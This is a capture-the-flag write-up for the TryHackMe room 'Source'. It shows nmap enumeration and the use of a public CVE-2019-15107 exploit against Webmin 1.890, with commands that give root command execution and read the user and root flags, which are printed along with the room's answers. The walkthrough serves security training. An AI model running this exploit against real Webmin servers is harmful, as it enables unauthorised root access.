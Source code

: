 # Source
**Date:** March 13th 2022

**Author:** j.info

**Link:** [**Source**](https://tryhackme.com/room/source) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Easy

<br>

![](images/source0.png)

<br>

## Objectives
- user.txt flag
- root.txt flag

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -A -T4 10.10.106.247`

```bash
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
```

<br>

### Gobuster Scan

No gobuster scan is required for this CTF.

<br>

## Website Digging

Visiting the main page:

![](images/source1.png)

<br>

## CVE-2019-15107

I do a quick search for **webmin exploit** and it looks like there is an RCE effecting Webmin <=1.920 under **CVE-2019-15107**. Since this server is running Webmin version 1.890 we can try this CVE and see if it works for us. 

I find a python script for this CVE on github [**here**](https://raw.githubusercontent.com/foxsin34/WebMin-1.890-Exploit-unauthorized-RCE/master/webmin-1.890_exploit.py).

Looking at the script it exploits a command injection vulnerability in the **password_change.cgi** file. I test it out by running:

`python3 webmin-1.890_exploit.py 10.10.106.247 10000 "which nc"`

```html
--------------------------------
   ______________    _____   __
  / ___/_  __/   |  /  _/ | / /
  \__ \ / / / /| |  / //  |/ / 
 ___/ // / / ___ |_/ // /|  /  
/____//_/ /_/  |_/___/_/ |_/   
                                       
--------------------------------

WebMin 1.890-expired-remote-root

<h1>Error - Perl execution failed</h1>
<p>Your password has expired, and a new one must be chosen.
/bin/nc
</p>
```

It's working, we have RCE on the box.

Let's see which user Webmin is running under:

`python3 webmin-1.890_exploit.py 10.10.106.247 10000 "id"`

```html
--------------------------------
   ______________    _____   __
  / ___/_  __/   |  /  _/ | / /
  \__ \ / / / /| |  / //  |/ / 
 ___/ // / / ___ |_/ // /|  /  
/____//_/ /_/  |_/___/_/ |_/   
                                       
--------------------------------

WebMin 1.890-expired-remote-root

<h1>Error - Perl execution failed</h1>
<p>Your password has expired, and a new one must be chosen.
uid=0(root) gid=0(root) groups=0(root)
</p>
```

Well, it looks like we're running as root! We can likely get a reverse shell back at this point since nc was there, but I don't even think we need to do that since we should just be able to cat the 2 flags using this script.

I run the script with **ls /home** and see that we have 1 user on the system named **dark**. Listing files in **/home/dark** shows us that the **user.txt** flag is there.

I run the script with **cat /home/dark/user.txt** and get back the user flag.

```
THM{SUPPLY_CHAIN_COMPROMISE}
```

I then run the script with **cat /root/root.txt** and get back the root flag.

```
THM{UPDATE_YOUR_INSTALL}
```

<br>

And with that we've completed this CTF! This was definitely a short one.

![](images/source2.png)

<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap**
- Using **CVE-2019-15107** against a vulnerable **Webmin** server

<br>

Many thanks to:
- [**DarkStar7471**](https://tryhackme.com/p/DarkStar7471) for creating this CTF
- **TryHackMe** for hosting this CTF.

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)